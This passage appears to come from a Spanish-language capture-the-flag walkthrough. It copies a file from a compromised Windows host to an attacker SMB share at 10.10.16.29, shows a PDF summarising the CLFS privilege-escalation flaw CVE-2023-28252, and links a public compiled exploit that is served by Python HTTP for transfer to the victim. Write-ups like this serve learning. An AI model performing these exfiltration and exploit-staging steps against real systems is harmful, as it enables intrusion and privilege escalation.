 ```
PS C:\Users\sam.emerson\Documents> copy CVE-2023-28252_Summary.pdf \\10.10.16.29\smbFolder\CVE-2023-28252_Summary.pdf
```

`Visualizamos` el `contenido` del `pdf` en el cual nos habla del `CVE-2023-28252`

```
# pdf2txt CVE-2023-28252_Summary.pdf 
CVE-2023-28252 Summary:
Vulnerability Type: Privilege Escalation
Target Component: Common Log File System (CLFS)
Risk Level: Critical
Exploitation Date: February 2022 onwards
Patch Released by Microsoft: April 2023

Background:
The Nokoyawa ransomware group has been active since February 2022, and it was only 
in April 2023 that Microsoft released a patch to address this issue. This 
vulnerability has been used as a means for attackers to gain unauthorized access to
Windows systems, making it imperative for us to apply the necessary patch to 
safeguard our infrastructure.
According to Kaspersky’s analysis, the Nokoyawa ransomware group has used other 
exploits targeting the CLFS driver since June 2022, with similar but distinct 
characteristics, all linked to a single exploit developer.

Actions Required:
Immediate Patching: We strongly recommend applying the security patch released by 
Microsoft for CVE-2023-28252 as soon as possible to mitigate the risk associated 
with this vulnerability. Failing to do so could leave our servers exposed to 
potential exploitation.

Review and Monitoring: In addition to patching, we should conduct a thorough review
of our server logs to check for any signs of suspicious activity or unauthorized 
access. Continuous monitoring of our server environment is crucial to ensure the 
security of our systems.

Security Awareness: It is essential to remind all team members of the importance of
practicing good cybersecurity hygiene. Encourage the use of strong, unique 
passwords and two-factor authentication wherever applicable.

Incident Response Plan: Ensure that our incident response plan is up-to-date and 
ready for immediate activation in case of any security incidents. Timely detection 
and response are critical in mitigating the impact of potential attacks.
```

Nos `descargamos` el `exploit` de este proyecto de github [https://github.com/duck-sec/CVE-2023-28252-Compiled-exe.git](https://github.com/duck-sec/CVE-2023-28252-Compiled-exe.git) y nos `montamos` un `servidor http` con `python` en nuestro equipo

```
# python -m http.server 80    
```

Nos `transferimos` el `exploit` a la `máquina víctima`
